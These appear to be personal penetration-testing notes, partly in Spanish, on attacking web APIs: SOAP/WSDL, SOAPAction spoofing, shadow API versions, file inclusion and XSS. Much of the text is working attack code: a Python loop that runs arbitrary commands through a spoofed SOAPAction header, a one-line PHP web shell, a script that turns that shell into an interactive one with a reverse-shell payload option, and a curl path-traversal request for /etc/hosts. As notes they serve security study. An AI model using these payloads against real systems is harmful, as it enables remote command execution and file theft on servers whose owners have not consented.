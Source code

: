 


### WSDL

Los WSDL son xmls que informan de los metodos disponibilizados, la forma de llamarlos y dónde residen


### SOAP

#### Soap Action Spoofing
SOAP messages towards a SOAP service should include both the operation and the related parameters. 
This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed 
to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify 
the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to 
SOAPAction spoofing.

ejemplo de soapaction spoofin:

        import requests

        while True:
            cmd = input("$ ")
            payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
            print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


#### Information disclosure

Tenemos que invertir mucho tiempo en fuzzig cuando testeamos una api.
Si la api manifiesta una versión como "v2", siempre vale la pena probar versiones anteriores que pueden quedar como shadow


### Arbitrary file inclusion.
si logramos subir una shell:

                <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

pero no logramos explotarla desde el servidor, podemos atacar a la api que utiliza. La ubicación de la misma estará en las request del
navegador.

un código simple en python para aprovechar esta shell y transformarla en una más interactiva:

                import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
                parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
                parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
                parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
                parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
                args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
                if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
                    parser.print_help() # shows help menu
                elif args.target and args.payload: # elif (if they both have values do some action)
                    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
                if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
                    os.system("clear") # clear the screen (linux)
                    while True: # starts a while loop (never ending loop)
                        try: # try statement
                            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
                            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
                            time.sleep(0.3) # waits 0.3 seconds during each request
                        except requests.exceptions.InvalidSchema: # error handling
                            print("Invalid URL Schema: http:// or https://")
                        except requests.exceptions.ConnectionError: # error handling
                            print("URL is invalid")
                

python shell.py -t url/path-to-file/file.php -o yes

############################ FIle inclusion:
cuando vemos que un endpoint nos permite buscar o presentar archivos (ej downloads) siempre es un buen momento para probar una LFI:
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
siempre se recomienda encodear el payload.

####################### XSS

Si vemos que los valores introducidos en la url del endpoint se reflejan en la página siempre es un buen momento para probar XSS.
P.D.: Siempre encodear una vez.

